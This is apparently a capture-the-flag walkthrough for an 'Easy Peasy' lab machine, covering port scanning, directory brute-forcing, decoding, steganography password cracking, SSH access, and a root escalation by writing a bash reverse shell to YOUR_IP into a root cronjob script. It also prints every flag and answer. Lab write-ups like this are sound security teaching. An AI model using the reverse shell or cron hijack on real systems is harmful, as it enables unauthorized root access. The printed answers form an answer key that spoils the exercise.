   ![Banner](banner.png)
# Easy Peasy

  - [Task 1](#task-1-enumeration-through-nmap)
  - [Task 2](#task-2-compromising-the-machine)

## Task 1 Enumeration through Nmap

<i>First we should check how many ports are open. To do so we will use [nmap](https://nmap.org/). We will use the `-p-` flag to scan all ports.<br>
The full command is `nmap -A -T4 -p- MACHINE_IP`<br>
This can take a long time but nmap returns us the following.</i>

<pre>
  PORT      STATE SERVICE VERSION
<b>80/tcp</b>    open  http    <b>nginx 1.16.1</b>
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.16.1
<b>6498/tcp</b>  open  ssh     <b>OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)</b>
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
<b>65524/tcp</b> open  http    <b>Apache httpd 2.4.43 ((Ubuntu))</b>
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.43 (Ubuntu)
|_http-title: Apache2 Debian Default Page: It works
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

So to answer the questions;
1. How many ports are open?<br>
   `3`

<i>To detect the version of [nginx](https://nginx.org) we look at the output above and at port 80 we can see the verison of service running...</i>

2. What is the version of nginx?<br>
   `1.16.1`

<i>The output above also shows the answer to the last question. i.e. service running at port 65524 </i>

3. What is running on the highest port?<br>
   `Apache`


## Task 2 Compromising the machine

<i>We can use [gobuster](https://github.com/OJ/gobuster) or [ffuf](https://github.com/ffuf/ffuf) to search for hidden directories. By using the `-u` flag we can specify a url to attack. As a wordlist we will can use the [`common.txt`](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt), [`rockyou.txt`](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) or any of [`seclist`](https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content) wordlist.<br> 
The command: will look like  `gobuster dir -u http://MACHINE_IP -w /path/to/common.txt` for gobuster and for ffuf
`ffuf -u http://MACHINE_IP/FUZZ -w /path/to/common.txt`                </i>

<pre>
<b>/hidden</b> (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
</pre>

<i>When visiting the `/hidden` directory there is only a picture and the source code also does not help us. But that cannot be the end. Let's continue the search and perform another gobuster search on the `/hidden` directory.<br>
The full command: `gobuster dir -u "http://MACHINE_IP/hidden" -w ./common.txt`</i>

<pre>
/index.html (Status: 200)
<b>/whatever</b> (Status: 301)
</pre>

<i>The `/whatever` directory looks interesting. By visiting the page there again is just a picture. But looking at the source code we can see a hidden p-tag with a `base64` looking string in it. Let's decode this string: `echo ZmxhZ3tmMXJzN19mbDRnfQ== | base64 -d`</i>

1. What is flag 1?<br>
   `flag{f1rs7_fl4g}`

<i>Now looking at the Apache server we can see the default page. We could make another gobuster scan to find maybe some interesting files or directories.<br>
The full command: `gobuster dir -u "http://MACHINE_IP:65524" -w ./common.txt`<br>
Gobuster returns nothing really special but let's look at the `robots.txt`. At the User-Agent field there is a string, looking like a `MD5` hash or somehting like that.</i>

<pre>
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.html (Status: 200)
<b>/robots.txt</b> (Status: 200)
/server-status (Status: 403)
</pre>

<i>To crack the hash I tried many websites but all of them haven't worked for me. Except one: [md5hashing.net](https://md5hashing.net). I inserted the hash, waiting. And the website returned me the second flag.</i>

2. What is flag 2?<br>
   `flag{1m_s3c0nd_fl4g}`

<i>Looking back to the Apache default page source code we can see the third flag in plain text. If you cannot find the flag at once, just keep searching.</i>

3. What is flag 3?<br>
   `flag{9fdafbd64c47471a8f54cd3fc64cd312}`

<i>The next question tells us to search for another hidden diretory. But not so fast. When I looked at the default page I also found another message: `its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu`. Should that mean that the string is `base` encoded? Let's try to decode it. A great website to test something like this is [CyberChef](https://gchq.github.io/CyberChef). I tried every `from base...` and got a hit with `base62`.</i>

4. What is the hidden directory?<br>
   `/n0th1ng3ls3m4tt3r`

<i>When visiting the hidden directory we can see another picture, another hash in the source code. The picture looks interesting because it is not stored on pixabay like the other pictures before. And its name maybe should mislead us. Maybe there is a hidden file inside the picture. Let's download the picture by using `wget`.<br>
The command: `wget "http://MACHINE_IP:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg"`<br>
Now we can try [steghide](http://steghide.sourceforge.net) on this picture. With `-sf` we can set a file to extract from.<br>
The full command: `steghide extract -sf binarycodepixabay.jpg`<br>
But it prompts for a password which we don't have. Remember, there was this hash on the page and the room provides a wordlist. After downloading the wordlist we can start up [stegcracker](https://github.com/Paradoxis/StegCracker) to crack the password.<br>
The command: `stegcracker binarycodepixabay.jpg easypeasy.txt`</i>

<pre>
StegCracker 2.0.9 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'binarycodepixabay.jpg' with wordlist 'easypeasy.txt'..
Successfully cracked file with password: mypasswordforthatjob
Tried 3585 passwords
Your file has been written to: binarycodepixabay.jpg.out
<b>mypasswordforthatjob</b>
</pre>

5. What is the password from the hash?<br>
   `mypasswordforthatjob`

<i>We can `cat` out the `binarycodepixabay.jpg.out` and see the following.</i>

<pre>
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
</pre>

<i>A username and a password encoded in binary...interesting. On [RapidTables](https://www.rapidtables.com/convert/number/binary-to-ascii.html) we can easily paste the binary in and convert it to plain text.</i>

6. What is the password to login to the machine via SSH?<br>
   `iconvertedmypasswordtobinary`

<i>We have all credentials for an ssh login. After logging in we are in the home directory and can `cat` the `user.txt`.</i>

<pre>
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
</pre>

<i>The flag is 'rotated'. That means we should decode the flag with `ROT13`. I used an [online tool](https://gc.de/gc/rot13).</i>

7. What is the user flag?<br>
   `flag{n0wits33msn0rm4l}`

<i>Now we have to become root to read the root flag. Looking at the cronjobs with `cat /etc/cronjobs` shows a cronjob running as root.</i>

<pre>
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
<b>* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh</b>
</pre>

<i>When we look at the `.mysecretcronjob.sh` we have read and write permissions. That means we can execute commands as root. To get a reverse shell we can copy one from [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Now we have to `nano .mysecretcronjob.sh` and paste in our reverse shell.</i>

<pre>
#!/bin/bash
bash -i >& /dev/tcp/YOUR_IP/8080 0>&1
</pre>

<i>And we have to listen for a connection using `netcat -lnvp 8080`. It does not need much time and we get a connection and become root. we can `cd` into the `/root` diretory and `ls -a` list all files. There is a `.root.txt` file. Because we are root we can simply type `cat .root.txt` and get the final root flag.</i>

8. What is the root flag?<br>
   `flag{63a9f0ea7bb98050796b649e85481845}`

